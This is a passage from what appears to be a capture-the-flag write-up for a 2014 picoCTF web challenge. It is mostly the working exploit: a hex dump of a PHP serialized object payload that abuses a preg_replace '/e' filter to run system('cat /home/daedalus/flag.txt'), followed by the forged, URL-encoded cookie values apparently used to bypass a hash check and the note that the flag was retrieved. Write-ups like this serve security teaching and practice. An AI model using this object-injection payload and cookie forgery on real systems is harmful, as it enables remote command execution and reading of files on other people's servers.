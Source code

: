 	00000000  0a 4f 3a 34 3a 22 50 6f  73 74 22 3a 33 3a 7b 73  |.O:4:"Post":3:{s|
	00000010  3a 38 3a 22 00 2a 00 74  69 74 6c 65 22 3b 73 3a  |:8:".*.title";s:|
	00000020  34 3a 22 74 65 73 74 22  3b 73 3a 37 3a 22 00 2a  |4:"test";s:7:".*|
	00000030  00 74 65 78 74 22 3b 73  3a 34 3a 22 74 65 73 74  |.text";s:4:"test|
	00000040  22 3b 73 3a 31 30 3a 22  00 2a 00 66 69 6c 74 65  |";s:10:".*.filte|
	00000050  72 73 22 3b 61 3a 31 3a  7b 69 3a 30 3b 4f 3a 36  |rs";a:1:{i:0;O:6|
	00000060  3a 22 46 69 6c 74 65 72  22 3a 32 3a 7b 73 3a 31  |:"Filter":2:{s:1|
	00000070  30 3a 22 00 2a 00 70 61  74 74 65 72 6e 22 3b 73  |0:".*.pattern";s|
	00000080  3a 37 3a 22 2f 74 65 73  74 2f 65 22 3b 73 3a 37  |:7:"/test/e";s:7|
	00000090  3a 22 00 2a 00 72 65 70  6c 22 3b 73 3a 33 38 3a  |:".*.repl";s:38:|
	000000a0  22 73 79 73 74 65 6d 28  27 63 61 74 20 2f 68 6f  |"system('cat /ho|
	000000b0  6d 65 2f 64 61 65 64 61  6c 75 73 2f 66 6c 61 67  |me/daedalus/flag|
	000000c0  2e 74 78 74 27 29 3b 22  3b 7d 7d 7d              |.txt');";}}}|


the resulting cookies content for the submission to the vulnerable page were respectively:

	custom_settings_hash: 13c0bac46fcbd453c5052bce1d2f9ad6c88fe2bc

	vustom_settings: b:1%3b%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%60%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A4%3A%22test%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A4%3A%22test%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A7%3A%22%2Ftest%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A38%3A%22system%28%27cat+%2Fhome%2Fdaedalus%2Fflag.txt%27%29%3B%22%3B%7D%7D%7D

and they resulted in the flag being correctly retrieved

{% img center /images/2014/pico/steveslist/flag.png %}


